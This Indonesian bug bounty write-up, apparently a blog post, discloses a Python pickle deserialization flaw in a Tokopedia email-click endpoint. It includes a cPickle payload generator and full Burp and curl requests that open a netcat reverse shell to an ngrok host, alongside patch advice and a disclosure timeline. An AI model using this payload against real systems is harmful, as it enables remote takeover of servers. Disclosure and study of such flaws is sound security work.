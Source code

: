 ```yaml
---
private: 'false'
layout: post
featured: true
published: true
comments: true
modified: 2018-09-10
date: 2018-09-10
title: "How I Hack Tokopedia (third party server) with pickle object"
tags: [Bugbounty]
mathjax: false
category: Bugbounty
description: "How I Hack Tokopedia (third party server) with pickle object"
chart: null
---
```



### Apa itu RCE?
---
RCE (Remote Command Injection) adalah kelemahan dimana attacker dapat memerintah sistem untuk menjalankan kode yang dinginkan, Tipe attack seperti ini biasanya karena kurangnya validasi terhadap data yang bisa dikendalikan oleh user. 

### Apa Dampaknya ?
---
Attacker dapat menjalankan perintah pada sistem dengan hak akses root.

<img width="400px" src="https://media.giphy.com/media/1dIo6kDOPMzsnMOJTj/giphy.gif">

### Proof Of Concept 
---
Secara tidak sengaja ketika saya mendapatkan email promosi dari tokopedia saya kemudian tertarik untuk menganalisa sebentar pada email yang tokopedia kirimkan.

![Promo Minggu ini](/images/tokopedia/promo-tokped.png)

saya memperhatikan semua link yang ada pada email tersebut meggunakan https://explorer.tokopedia.com kemudian saya mencoba membuka salah satu link yaitu : 

```
https://explorer.tokopedia.com/v1/emailclick?em=1337%40gmail.com&user_id=S%27%5Cx8d%5Cxe9%5Cxd1Y%5Cxdb%5Cx10%5Ct%5Cx92%5Cxd2%5Cx10%5Cx80%5Cxd7%5Cx9d%5Cxa4%5Cxc7%5Cx9eM_%2A+%5Cxc6%2C%5Cxb6%5Cx91%5Cx98%5Cxe0%5Cxben%5Cxfe%5Cxda%5Cxfa%5Cxf4%27%0Ap0%0A.&d=S%27G%5Cxdfy%5Cxf5%5Cx00%5Cxe2G%5Cxe9F%5Cx91Gi%5Cx8d%5Crr%5Cxeb%5Cxf9%5Cxb6%5Cx87%5Cx99%60%27%0Ap0%0A.&ts=1536374957&cid=S%27%5Cxdd%5Cxe2%5Cx93%5Cx93i%5Cx0b%5Cx00%3Dd%5Cxac%24%2C%5Cxfah%5Cx91%5Cxc9Cz%5Cxc9%5Cxc65%5Cxef%5Cx81%5Cx04%5Cx84%5Cxc4-%5Cxaf%5Cxa44%5Cxe2%5Cx10ee%22%5Cxeb%5Cx0b%5Cx16N%3C%5Cxec%5Cx16%2Cs%5Cxa8%5Cxe3%5Cxaf.%5Cxe4A%5Cxc5Q%27%0Ap0%0A.&ut=l&moeclickid=5b93333e7da87848b22e8659_F_T_EM_AB_0_P_0_L_0ecli48&app_id=S%27%60%5Cx8ele_%5Cx8ao%5Cxb4%5Cx9dJ%5Cr%5Cx01%5Cxee%5Cx80%5Cxbc%5Cx8ck%5Cxd7%5Cx83%2FUk%60%5Cxfe%5Cx16%5Cxd7+%5Cxa5%5Cx90%5D%5Cxda%5Cx93%27%0Ap0%0A.&pl=A&c_t=ge&rlink=https://tokopedia.link/EBxQm0a00P?$deep_link=true%26utm_source=7teOvA%26utm_medium=email%26utm_campaign=co_OFS_BR_982018_Compilation%26utm_content=C3
```

Ada beberapa parameter yang menarik karena setelah saya lakukan url-decode ternyata yang dikirim adalah dalam bentuk Pickle String Python jadi karena seperti yang kita ketahu pada dokumentasi python sendiri Pickle sudah di warning agar tidak menerima input dari user karena dapat di-abuse untuk mendapatkan akses kepada sistem 

```
user_id=S%27%5Cx8d%5Cxe9%5Cxd1Y%5Cxdb%5Cx10%5Ct%5Cx92%5Cxd2%5Cx10%5Cx80%5Cxd7%5Cx9d%5Cxa4%5Cxc7%5Cx9eM_%2A+%5Cxc6%2C%5Cxb6%5Cx91%5Cx98%5Cxe0%5Cxben%5Cxfe%5Cxda%5Cxfa%5Cxf4%27%0Ap0%0A.
d=S%27G%5Cxdfy%5Cxf5%5Cx00%5Cxe2G%5Cxe9F%5Cx91Gi%5Cx8d%5Crr%5Cxeb%5Cxf9%5Cxb6%5Cx87%5Cx99%60%27%0Ap0%0A.
cid=S%27%5Cxdd%5Cxe2%5Cx93%5Cx93i%5Cx0b%5Cx00%3Dd%5Cxac%24%2C%5Cxfah%5Cx91%5Cxc9Cz%5Cxc9%5Cxc65%5Cxef%5Cx81%5Cx04%5Cx84%5Cxc4-%5Cxaf%5Cxa44%5Cxe2%5Cx10ee%22%5Cxeb%5Cx0b%5Cx16N%3C%5Cxec%5Cx16%2Cs%5Cxa8%5Cxe3%5Cxaf.%5Cxe4A%5Cxc5Q%27%0Ap0%0A.
app_id=S%27%60%5Cx8ele_%5Cx8ao%5Cxb4%5Cx9dJ%5Cr%5Cx01%5Cxee%5Cx80%5Cxbc%5Cx8ck%5Cxd7%5Cx83%2FUk%60%5Cxfe%5Cx16%5Cxd7+%5Cxa5%5Cx90%5D%5Cxda%5Cx93%27%0Ap0%0A.
```

`Parameter yang vulnerable adalah : user_id , d , cid , app_id`

Hasil decode dari parameter `user_id` adalah : 

```
S'\x8d\xe9\xd1Y\xdb\x10\t\x92\xd2\x10\x80\xd7\x9d\xa4\xc7\x9eM_* \xc6,\xb6\x91\x98\xe0\xben\xfe\xda\xfa\xf4'
p0
.
```

Dari melihat struktur data tersebut sudah bisa ditebak bahwa itu pickle strings yang akan dikirimkan melalui parameter yang vulnerable tersebut, dengan melakukan modifikasi pada pickle strings yang dikirimkan saya bisa mendapatkan reverse shell untuk akses server tokopedia secara penuh.

untuk melakukan reverse shell kita dapat membuat listener menggunakan nc `nc -lvp 8080`, karena ip address saya tidak memiliki public ip maka saya menggunakan ngrok untuk melakukan tuneling dengan `./ngrok.exe tcp 8080` kemudian kita dapat mengakses ngrok pada `localhost:4040` untuk mendapatkan public address yang di assign ngrok.

untuk membuat payload reverse shell dengan cPickle saya gunakan script python dibawah, kemudian output dari script ini dimasukan kedalam salah satu parameter yang vulnerable diatas yaitu `user_id | d | cid | app_id` salah satu parameter saja.

```python
#!/usr/bin/python

import cPickle
import sys
import base64
import urllib

DEFAULT_COMMAND ="rm /tmp/shell; mknod /tmp/shell p; nc 0.tcp.ngrok.io 11758 0</tmp/shell | /bin/sh 1>/tmp/shell"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print urllib.quote(cPickle.dumps(PickleRce()))

```

kemudian kita dapat menjalankan request ini menggunakan burpsuite.

```
GET /v1/emailclick?em=1337%40gmail.com&user_id=cposix%0Asystem%0Ap1%0A%28S%27rm%20/tmp/shell%3B%20mknod%20/tmp/shell%20p%3B%20nc%200.tcp.ngrok.io%2011758%200%3C/tmp/shell%20%7C%20/bin/sh%201%3E/tmp/shell%27%0Ap2%0AtRp3%0A.&d=S%27%5Cxf2%5Cxb2%5Cxb3%5Cxd2%5Cx90%25%5Cxf82%5Cxe3h%5Cxa7%5Cxa1%5Cx13uow%5Cr%5Cx92K%5Cx12%7E%27%0Ap0%0A.&ts=1536374957&cid=S%224%5Cxc2%5Cxe4BQ%5Cxfe%5Cx8f%5Cxcd%5Cxf5%5Cx83f%27T%5Cx04%5Cx13%5Cxf3%5Cxbf%5Cxd9%27EHB%5Cx0b%5Cxcc%5Cx08%5Cxc9U%5Cxaf%28S%5Cxb3%5Cxcc%5Cx91%5Cxbf%5Cxf6%5Cx1e%5Cxfe%5Cxb6%5Cx11i%5Cxd7g%5Cxaf%5Cxcf%5Cx06%5Cxf0%5Cxf2%5CnDll%5Cxeb%22%0Ap0%0A.&ut=l&moeclickid=5b93333e7da87848b22e8659_F_T_EM_AB_0_P_0_L_0ecli42&app_id=S%27%5Cxd8%5C%5C%5Cx80%5Cxb8%5Cxb9f%5Cxb4%5Cxf9%5CxceC%5Cx85%22k%5Cxec%5Cxca%5Cxc9h%5Cx0b%5CxcfIf%5Cx8b%5Cx0e%5Cx84%5Cx06%5Cxade%5Cxa6%5Cxd1%5Cxa1.%5Cxe8%27%0Ap0%0A.&pl=A&c_t=ge&rlink=https://tokopedia.link/Kmg2re6Z0P?$deep_link=true%26utm_source=7teOvA%26utm_medium=email%26utm_campaign=co_OFS_BR_982018_Compilation%26 HTTP/1.1
Host: explorer.tokopedia.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5
Cookie: [..REDACTED..]
```

atau bisa juga menggunakan curl.

```
curl "https://explorer.tokopedia.com/v1/emailclick?em=1337%40gmail.com&user_id=cposix%0Asystem%0Ap1%0A%28S%27rm%20/tmp/shell%3B%20mknod%20/tmp/shell%20p%3B%20nc%200.tcp.ngrok.io%2011758%200%3C/tmp/shell%20%7C%20/bin/sh%201%3E/tmp/shell%27%0Ap2%0AtRp3%0A.&d=S%27%5Cxf2%5Cxb2%5Cxb3%5Cxd2%5Cx90%25%5Cxf82%5Cxe3h%5Cxa7%5Cxa1%5Cx13uow%5Cr%5Cx92K%5Cx12%7E%27%0Ap0%0A.&ts=1536374957&cid=S%224%5Cxc2%5Cxe4BQ%5Cxfe%5Cx8f%5Cxcd%5Cxf5%5Cx83f%27T%5Cx04%5Cx13%5Cxf3%5Cxbf%5Cxd9%27EHB%5Cx0b%5Cxcc%5Cx08%5Cxc9U%5Cxaf%28S%5Cxb3%5Cxcc%5Cx91%5Cxbf%5Cxf6%5Cx1e%5Cxfe%5Cxb6%5Cx11i%5Cxd7g%5Cxaf%5Cxcf%5Cx06%5Cxf0%5Cxf2%5CnDll%5Cxeb%22%0Ap0%0A.&ut=l&moeclickid=5b93333e7da87848b22e8659_F_T_EM_AB_0_P_0_L_0ecli42&app_id=S%27%5Cxd8%5C%5C%5Cx80%5Cxb8%5Cxb9f%5Cxb4%5Cxf9%5CxceC%5Cx85%22k%5Cxec%5Cxca%5Cxc9h%5Cx0b%5CxcfIf%5Cx8b%5Cx0e%5Cx84%5Cx06%5Cxade%5Cxa6%5Cxd1%5Cxa1.%5Cxe8%27%0Ap0%0A.&pl=A&c_t=ge&rlink=https://tokopedia.link/Kmg2re6Z0P?$deep_link=true%26utm_source=7teOvA%26utm_medium=email%26utm_campaign=co_OFS_BR_982018_Compilation%26"
```

![GOT ROOT](/images/tokopedia/gotroot.png)

![I AM (G)?ROOT](https://media.giphy.com/media/uINwDsSVEfGsE/giphy.gif)

![/ETC/SHADOW](/images/tokopedia/gotetcshadow.png)

![hostname](/images/tokopedia/hostname.png)

### HOW TO PATCH ?
---
Jangan memasukan input user kedalam `cPickle.load[s]?()` atau `pickle.load[s]?()` seperti yang sudah di jelaskan pada dokumentasi python sendiri [https://docs.python.org/3/library/pickle.html](https://docs.python.org/3/library/pickle.html).

![PICKLE WARNING](/images/tokopedia/pythonpickle.png)


### TIMELINE & BONUS CONTENT (DLC)
---

| Waktu & Tanggal           | Deskripsi                     	|
|---------------------------|-----------------------------------|
| 08 September 2018 5:25 PM | Report Submited               	|
| 08 September 2018 6:30 PM | First Response From Tokopedia 	|
| 09 September 2018 7:00 AM | Tokopedia take down the endpoint	|
| 10 September 2018 3:59 PM | Rewarded                       	|
| 10 September 2018 20:00 PM| Public Disclose                  	|

---


* Youtube : https://youtu.be/Fo6Emx-LMQE

*That's all folks!*

<img src="https://media.giphy.com/media/XreQmk7ETCak0/giphy.gif" width="300px">

